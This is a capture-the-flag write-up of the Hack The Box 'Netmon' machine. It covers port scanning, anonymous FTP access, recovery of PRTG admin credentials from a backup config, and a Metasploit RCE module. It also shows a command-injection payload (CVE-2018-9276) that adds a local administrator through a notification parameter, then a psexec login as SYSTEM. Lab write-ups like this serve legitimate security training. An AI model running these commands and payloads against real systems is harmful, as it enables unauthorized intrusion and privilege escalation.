






|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.152 |  | [Netmon](https://app.hackthebox.com/machines/netmon) |  |

---

## Enumeration

### Nmap

We begin by running a full Nmap scan to discover open ports and services on the target machine (10.10.10.152):

```
nmap -T4 -p- --min-rate=1000 -sC -sV 10.10.10.152

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Nmap reveals the following:
- **Port 21 (FTP):** Microsoft FTP server, anonymous access allowed.
- **Port 80 (HTTP):**  Paessler PRTG Network Monitor web server.
- **Port 445 (SMB):** Microsoft Windows Server SMB, potentially vulnerable to EternalBlue.
- Other Common Ports

### FTP

Upon discovering FTP on port 21 with anonymous login allowed, we connect and explore the server. First, we check the `Users` folder to assess the current level of privilege we have access to. We are denied access to the `Administrator` directory. If only it was that easy. We are able to traverse the `Public` directory and locate the user flag in `Desktop`.

```
ftp 10.10.10.152  

Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49940|)
150 Opening ASCII mode data connection.
02-02-19  11:18PM                 1024 .rnd
02-25-19  09:15PM       <DIR>          inetpub
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-03-19  07:08AM       <DIR>          Users
11-10-23  09:20AM       <DIR>          Windows
226 Transfer complete.

ftp> cd Users
250 CWD command successful.
ftp> cd Administrator
550 Access is denied. 
ftp> cd Public
250 CWD command successful.

ftp> dir
229 Entering Extended Passive Mode (|||49961|)
125 Data connection already open; Transfer starting.
01-15-24  10:03AM       <DIR>          Desktop
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.

ftp> cd Desktop
250 CWD command successful.

ftp> dir
229 Entering Extended Passive Mode (|||52052|)
150 Opening ASCII mode data connection.
02-02-19  11:18PM                 1195 PRTG Enterprise Console.lnk
02-02-19  11:18PM                 1160 PRTG Network Monitor.lnk
01-08-25  10:38PM                   34 user.txt
226 Transfer complete.
ftp> get user.txt
```

Given that the FTP server is mounted on the web server, we attempt to locate configuration files related to PRTG. A quick [Google search](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) points us to the following directory for the PRTG configuration file:

C:\ProgramData\Paessler\PRTG Network Monitor


We cross reference the files available on the FTP server against the documentation and one file in particular stands out, `PRTG Configuration.old.bak`.



We download the configuration files from the FTP server and check for sensitive credentials (paying close attention to a particular file):

Optional: We can search for any mention of admin, user, or password within the file:

```
grep -iE 'admin|user|password' 'PRTG\ Configuration.old.bak'
```

This search reveals the credentials for the `prtgadmin` account:



With these credentials, we should be able to authenticate to the PRTG web interface.

### HTTP

Using the credentials prtgadmin : PrTg@dmin2018 we authenticate to the PRTG web interface. The login has failed and we know that we have inputted the credentials as is.



Why did it not work? We take a look back at where we obtained the file. According to the FTP server, `PRTG Configuration.old.bak` is the oldest file in this program and was last updated on 07-14-18. We can conclude that our credentials could be outdated. We will use the same password format, but increment the year by one until we reach current year. Luckily, we try `PrTg@dmin2019` as the password and gain entry as the Administrator.



### Foothold

We use Metasploit to search for exploit module(s) available on  PRTG Network Monitor.

```
msf6 > search prtg

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce_cve_2023_32781  2023-08-09       excellent  Yes    PRTG CVE-2023-32781 Authenticated RCE
   1    \_ target: Windows_Fetch                                  .                .          .      .
   2    \_ target: Windows_CMDStager                              .                .          .      .
   3  exploit/windows/http/prtg_authenticated_rce                 2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE
```

We select the `exploit/windows/http/prtg_authenticated_rce` module to exploit the vulnerable system and run it after setting the parameters.

```
use exploit/windows/http/prtg_authenticated_rce
set ADMIN_USERNAME prtgadmin
set ADMIN_PASSWORD PrTg@dmin2019
set rhosts 10.10.10.152
set lhost tun0
[lport default 4444]
```

We gain access to a `Meterpreter` session, with the system’s user context.

[meterpreter](../assets/Netmon/screenshot.meterpreter.png)

The root flag is located in `C:\Users\Administrator\Desktop`.

### Alternate Way

We turn our attention to the PRTG version (18.1.37.13946) and check for known vulnerabilities. This version is vulnerable to OS command injection as documented in [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276).

According to NIST, an attacker who has access to the PRTG System Administrator web console with administrative privileges can exploit an OS command injection vulnerability (both on the server and on devices) by sending malformed parameters in `sensor` or `notification` management scenarios.

Looking through `sensor`, we could not find code execution and move on to `notification`.

Click on Setup > Account Settings > Notifications.



Now hover over the (+) plus icon on the far right and then click “Add new notification”.


Keep the default fields and scroll down to the "Execute Program" section. Select the `ps1` option for Program File and add a new user via a command in the Parameter field.

```
trial.txt | net user [username] [password] /add ; net localgroup administrators [username]
/add
```

We go back to Account Settings > Notifications, click on the edit icon for the notification we created and then the bell icon to trigger it. 

We use psexec to login as the created admin user and gain access to a shell as SYSTEM.

```
psexec.py [username]:[password]@10.10.10.152
```